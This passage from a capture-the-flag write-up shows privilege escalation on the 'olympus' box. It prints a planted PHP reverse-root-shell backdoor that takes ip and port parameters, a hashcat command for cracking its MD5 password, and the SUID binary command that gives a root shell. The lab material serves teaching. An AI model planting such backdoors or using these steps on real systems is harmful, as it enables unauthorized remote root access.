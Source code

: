 It looks like that hacker Zeus put a backdoor in the system!:

```
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";
```

The $pass variable is an MD5 hash which I try and crack with **hashcat**:

`hashcat -m 0 -w 3 -O -D 1,2 hash.txt rockyou.txt`

```
a7c5ffcf139742f52a5267c4a0674129:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

It however does not work when trying to `sudo -l` again.

Looking at the $suid_bd and shell makes it looks like we can run the $shell command and get root.

<br>

## Root

I run the command and sure enough we get root:

`uname -a; w; /lib/defended/libc.so.99`

```
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ uname -a; w; /lib/defended/libc.so.99
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 16:02:41 up  1:59,  1 user,  load average: 0.04, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/1    10.6.127.197     15:30    1.00s  0.12s  0.00s w
# whoami
root
# hostname
olympus
```
